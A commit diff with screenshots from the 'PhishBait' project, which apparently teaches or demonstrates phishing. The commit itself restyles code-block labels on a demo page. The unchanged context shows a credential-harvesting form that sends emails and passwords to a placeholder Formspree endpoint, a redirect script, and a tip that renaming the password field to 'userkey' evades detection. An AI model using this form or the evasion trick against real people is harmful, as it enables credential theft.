

Before and after one commit to redkitlab/PhishBait, a plain HTML site: page TackleBox/Demo/demo.html in a window 1280 px wide. Shown: the top 1072 px of the page, without its empty margins (208-1071 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Better code block titles

```diff
--- a/TackleBox/Demo/demo.html
+++ b/TackleBox/Demo/demo.html
@@ -71,6 +71,43 @@
             code {
                 font-family: "Fira Code", monospace;
                 font-size: 0.95rem;
+            }
+
+            .code-block {
+                margin-bottom: 2rem;
+                border-radius: 8px;
+                background: #1e1e1e;
+                position: relative;
+                padding-top: 1rem;
+            }
+
+            .code-label {
+                position: absolute;
+                top: 0;
+                left: 0;
+                transform: translateY(-50%);
+                background-color: #444;
+                color: #ffffff;
+                padding: 0.4rem 1rem;
+                font-weight: bold;
+                font-size: 0.9rem;
+                font-family: "Fira Code", monospace;
+                width: 100%;
+                box-sizing: border-box;
+                border-top-left-radius: 8px;
+                border-top-right-radius: 8px;
+                border-bottom: 1px solid #444;
+                z-index: 1;
+            }
+
+            .code-block pre {
+                margin: 0;
+                padding: 1rem;
+                border-radius: 0 0 8px 8px;
+                background: transparent;
+                border: none;
+                position: relative;
+                z-index: 0;
             }
 
             .download-button {
@@ -192,9 +229,9 @@
                 The page collects input from the user, in this case an email and
                 password.
             </p>
-
-            <p>HTML</p>
-            <pre><code class="language-html">&lt;form id="phishy-form" action="&lt;your formspree url&gt;" method="POST"&gt;
+            <div class="code-block">
+                <div class="code-label">HTML</div>
+                <pre><code class="language-html">&lt;form id="phishy-form" action="&lt;your formspree url&gt;" method="POST"&gt;
   &lt;label&gt;Email:&lt;/label&gt;
   &lt;input type="email" name="email" required /&gt;
 
@@ -203,8 +240,10 @@
 
   &lt;button id="my-form-button"&gt;Submit&lt;/button&gt;
 &lt;/form&gt;</code></pre>
-            <p>JavaScript</p>
-            <pre><code class="language-javascript">document
+            </div>
+            <div class="code-block">
+                <div class="code-label">JavaScript</div>
+                <pre><code class="language-javascript">document
     .getElementById("phishy-form")
     .addEventListener("submit", async function (e) {
     e.preventDefault();
@@ -219,6 +258,8 @@
         window.location.href = "https://www.example.com/";
     }
 }</code></pre>
+            </div>
+
             <p>
                 Note: The <code>name</code> attribute for the password field is
                 set to <code>userkey</code>. This avoids detection by
```
